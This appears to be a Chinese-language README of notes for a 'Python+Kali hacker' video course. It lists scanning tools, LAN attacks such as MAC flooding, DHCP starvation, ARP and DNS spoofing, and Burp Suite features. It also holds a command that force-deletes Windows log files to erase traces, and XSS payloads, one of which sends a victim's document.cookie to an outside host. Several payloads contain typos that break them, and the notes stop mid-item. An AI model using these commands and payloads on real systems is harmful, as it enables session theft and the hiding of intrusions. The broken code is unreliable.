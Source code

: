 # [乾颐堂](https://www.qytang.com/) Python+Kali黑客全套教程

## 0x00 视频 + 源码 + PDF

- videos
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [python+kali的全套黑客编程实践教程，全知识点+实践练习，（针对小白/python/kali/网络安全）](https://www.bilibili.com/video/BV1bG4y1H784/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?vd_source=7f220845f0d7bc792a045e75a5ac8b8d#reply136957487232)

- 源码 + PDF

  需要 + up 主 wx

- PDF

  暂存本地 [python&kali 教程](待定)



## 0x01 简单记录

<!--last modify: 20230922-->

- 扫描工具

  ping  /  fping / nping / arping / nbtscan / onesixtyone

- python + nmap

  ```tex
  # https://pypi.org/project/python-nmap/
  # pip install python-nmap
  # import nmap
  ```

  - pypi 中有相关使用方法

- 痕迹清理

  ```shell
  del %WINDIR%\*.log /a/s/q/f # 强制静默删除只读文件
  ```

- nexpose api

  ```tex
  https://<host>:<port>/api/api-version/xml
  ```

- 协议攻击

  ```tex
  mac 泛洪 + mac 欺骗
      macof
      # 防御 port security 技术
  
  dhcp 攻击
      pig.py 干掉合法dhcp 服务器
      非法dhcp 服务器开始干活儿
      # 防御 dhcp snooping 技术
  
  arp 攻击
      arpspoof
      # 防御 DAI 技术
  
  dns spoofing
      ettercap # dns 欺骗
      set # 社会工程学
  ```

- windows 沙盒探测



- 工具

  ```tex
  BurpSuite
  	Proxy 代理 / Intruder 攻击 / Repeater 重放
      Comparer 可比较两个不同请求页面的响应区别
      Spider 手工爬取+自动爬取
      Scanner 手工+自动
      Sequencer 自动确认Cookies 随机性
      Decoder + Extender 编/解码(绕过) + 扩展(WAF 绕过等)
  ```

- XSS POC & 攻击技巧

  ```tex
  # 手工改确认
  	1- 脚本：<script>alert('xss')</script>
  	2- 超链接：<a href='' onclick=alert('xss')>click it</a>
  	3- 图片：<img src=http://172.16.1.23/a.jpgg onerror=alert('xss')>
  	4- 重定向：<script>window.location="http://www.qytphp.com/was/xss.html"</script>
  	5- iframe：<iframe width=300 height=100 src="http://dvwa.qytang.com/vul/xss_r/?name=<script>window.location='http://www.qytphp.com/was/cookie.php?sid='%2Bdocumet.cookie;</script>"></iframe>
  	6- DOM：<script>document.body.ierHTML="<div style=visibility.visible;><br/><br/><h1>QYTAG</h1></div>";</script>
  
  # 攻击技巧
  	1- hook
  	2- ke
  ```

  
